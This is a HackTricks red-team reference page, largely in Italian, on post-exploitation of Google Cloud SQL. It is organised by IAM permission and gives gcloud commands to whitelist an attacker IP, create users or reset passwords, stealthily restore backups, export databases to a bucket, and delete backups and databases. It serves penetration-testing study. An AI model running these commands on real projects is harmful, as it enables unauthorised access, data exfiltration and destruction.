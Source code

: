 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Per ulteriori informazioni su Cloud SQL, controlla:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Per connettersi ai database, **è sufficiente avere accesso alla porta del database** e conoscere il **nome utente** e la **password**, non ci sono requisiti IAM. Quindi, un modo semplice per ottenere accesso, supponendo che il database abbia un indirizzo IP pubblico, è aggiornare le reti consentite e **permettere al proprio indirizzo IP di accedervi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
È anche possibile utilizzare **`--no-backup`** per **interrompere i backup** del database.

Poiché questi sono i requisiti, non sono completamente sicuro a cosa servano i permessi **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se lo sai, invia una PR!

### `cloudsql.users.list`

Ottieni un **elenco di tutti gli utenti** del database:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Questo permesso consente di **creare un nuovo utente all'interno** del database:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Questo permesso consente di **aggiornare l'utente all'interno** del database. Ad esempio, puoi cambiare la sua password:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

I backup potrebbero contenere **vecchie informazioni sensibili**, quindi è interessante controllarli.\
**Ripristina un backup** all'interno di un database:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Per farlo in modo più furtivo, è consigliabile creare una nuova istanza SQL e recuperare i dati lì invece che nei database attualmente in esecuzione.

### `cloudsql.backupRuns.delete`

Questo permesso consente di eliminare i backup:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Esporta un database** in un Cloud Storage Bucket in modo da poterlo accedere da lì:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importa un database** (sovrascrivi) da un Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Elimina un database dall'istanza db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Impara e pratica il hacking su AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking su GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
